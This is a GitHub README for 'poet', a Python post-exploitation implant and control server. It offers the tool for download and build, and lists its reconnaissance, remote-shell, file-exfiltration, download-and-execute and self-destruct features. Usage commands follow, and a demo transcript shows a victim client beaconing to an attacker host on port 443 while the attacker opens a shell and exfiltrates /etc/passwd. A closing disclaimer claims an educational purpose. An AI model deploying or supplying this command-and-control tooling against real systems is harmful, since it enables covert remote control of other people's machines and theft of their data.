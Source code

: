 # poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## getting started

Go to the [releases](http://github.com/mossberg/poet/releases) page and
download the latest `poet-client` and `poet-server` files available.

Then skip to the Usage section below.

Alternatively, you can build Poet yourself (it's pretty easy). Make sure you
have the `python2.7` and `zip` executables available.

```
$ git clone https://github.com/mossberg/poet
$ cd poet
$ make
```

This will create a `bin/` directory which contains `poet-client`
and `poet-server`.

## usage

Poet is super easy to use, and requires nothing more than the Python (2.7)
standard library. To easily try it out, a typical invocation would look like:

Terminal 1:

```
$ ./poet-client -v 127.0.0.1 1
```

Terminal 2:

```
$ sudo ./poet-server
```

Note: By default, the server needs to be run as root (using `sudo`) because
the default port it binds to is 443. If that makes you uncomfortable, simply
omit `sudo` and use the `-p <PORT>` flag on both the client and server. Pick a
nice, high number for your port (> 1024).

Of course, using the `-h` flag gives you the full usage.

```
$ ./poet-client -h
usage: poet-client [-h] [-p PORT] [-v] [-d] IP [INTERVAL]

positional arguments:
  IP                    server
  INTERVAL              (s)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  -v, --verbose
  -d, --delete          delete client upon execution

$ ./poet-server -h
usage: poet-server [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
```

## demo

This is just a small sample of what poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client (in verbose mode ;).  He/she does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then he/she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server.

Victim's Machine (5.4.3.2):

```
$ ./poet-client -v 1.2.3.4 10
[+] Poet started with interval of 10 seconds to port 443. Ctrl-c to exit.
[!] (2015-03-27 03:40:12.259676) Server is inactive
[!] (2015-03-27 03:40:22.263161) Server is inactive
[!] (2015-03-27 03:40:32.267308) Server is inactive
[+] (2015-03-27 03:40:42.273376) Server is active
[!] (2015-03-27 03:41:07.145979) Server is inactive
[!] (2015-03-27 03:41:17.150634) Server is inactive
[!] (2015-03-27 03:41:27.155614) Server is inactive
[!] (2015-03-27 03:41:37.160440) Server is inactive
```

Attacker's Machine (1.2.3.4):

```
# ./poet-server
                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/     v0.4
    /_/

[+] Poet server started on 443.
[+] (2015-03-27 03:40:42.272601) Connected By: ('5.4.3.2', 59309) -> VALID
[+] (2015-03-27 03:40:42.273087) Entering control shell
Welcome to psh, the Poet shell!
Running `help' will give you a list of supported commands.
psh > shell
psh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
psh > user@server $ ^D
psh > exfil /etc/passwd
psh : exfil written to archive/20150327/exfil/passwd-201503274054.txt
psh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
psh > exit
[+] (2015-03-27 03:40:57.144083) Exiting control shell.
[-] (2015-03-27 03:40:57.144149) Poet server terminated.
```

## disclaimer

I am building Poet purely for my own education and learning experience.
The code is freely available because I think it might be useful to others
interested in learning about this sort of thing. Use it responsibly.
